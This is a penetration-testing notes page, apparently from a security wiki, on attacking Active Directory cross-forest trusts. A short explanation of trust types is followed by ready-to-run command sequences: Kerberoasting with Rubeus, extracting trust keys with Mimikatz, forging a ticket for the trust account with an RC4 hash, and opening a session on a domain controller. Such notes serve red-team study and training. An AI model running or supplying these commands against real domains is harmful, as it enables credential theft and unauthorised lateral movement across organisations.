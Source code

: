 # Cross Forest Attacks

In **Active Directory (AD)**, a **trust** is a connection between the authentication systems of two domains, allowing users from one domain to access resources in another. Trusts exist both **within a single AD forest** and **between separate forests (cross-forest trusts).** There are many ways to attack cross-forest trusts.

{% hint style="info" %}
**Types of Cross-Forest Trusts**

1. **External Trust**: Connects 2 separate domains in different hosts, that do not have a forest trust, and uses SID filtering to prevent SID History abuse.
2. **Forest Trust**: Connects 2 entire entire AD forest allowing users from one forest to authenticate across all domains in the other forest. If **Domain A trusts Forest X**, then **any user from Forest X** can access **any domain in Forest A**.
{% endhint %}

<table><thead><tr><th width="213"></th><th>One-Way Trust</th><th>Two-Way Trust</th></tr></thead><tbody><tr><td>Direction of Access</td><td>Trusted → Trusting</td><td><strong>Both ways</strong> (Bidirectional)</td></tr><tr><td>Who Can Access What?</td><td>Users in the <strong>trusted domain</strong> can access the <strong>trusting domain</strong>, but <strong>not vice versa</strong>.</td><td>Users from <strong>both domains/forests</strong> can access each other's resources.</td></tr><tr><td>Common Use Case</td><td>A <strong>parent company</strong> allows employees from a <strong>subsidiary</strong> to access shared resources, but <strong>not the other way around</strong>.</td><td><strong>Common in large organizations</strong> where domains need to share resources freely.</td></tr><tr><td>Security Risk</td><td><strong>Lower risk</strong>, as access is limited to one direction.</td><td><strong>Higher risk</strong>, since a <strong>compromise in one domain/forest</strong> can affect the other.</td></tr></tbody></table>

#### **In a nutshell**

* AD **trusts** allow users in different domains/forests to access resources.
* **External Trusts** are **more restrictive** and use **SID Filtering**.
* **Forest Trusts** are **more flexible but riskier** because they allow **full authentication across forests**.
* **One-Way Trusts** allow access in only **one direction**, while **Two-Way Trusts** allow access in **both directions**.
* Attackers can **abuse trust relationships** if security is not properly configured.

### <mark style="color:yellow;">Kerberoasting targeting a Domain</mark>

```powershell-session
.\Rubeus.exe kerberoast /domain:logistics.ad /user:holly
```

### <mark style="color:yellow;">Trust Account Attack</mark>

In above example we see a one-way trust from Forest A to Forest B, the access works from A to B but not the other way around. To brake this rule we can perform a Trust Account Attack. &#x20;

{% hint style="info" %}
When a trust is created, a **trust account (A$) is automatically created in Forest-B**. This account is just a **regular domain user** in Forest-B. Attackers in **Forest-A** can **steal the credentials** of this trust then login to **Forest-B** bypassing one-way restriction.
{% endhint %}

```powershell
# Enumerate
Get-ADTrust -Identity megacorp.ad  

# SharpHound domain
.\SharpHound.exe -c All -d megacorp.ad

# Extract Forest Trust Keys
.\mimikatz.exe "lsadump::trust /patch" exit

# Request ticket for logistics$
.\Rubeus.exe asktgt /user:logistics$ /domain:megacorp.ad /rc4:68e456d3a95cc748ac5a2eae679b9c91 /ptt

# Kerberoast
.\Rubeus.exe kerberoast /domain:megacorp.ad

# Or request a ticket
.\Rubeus.exe asktgt /user:white.beard /password:<SNIP> /domain:megacorp.ad /ptt  

# New PS Session
New-PSSession DC03.megacorp.ad  
```


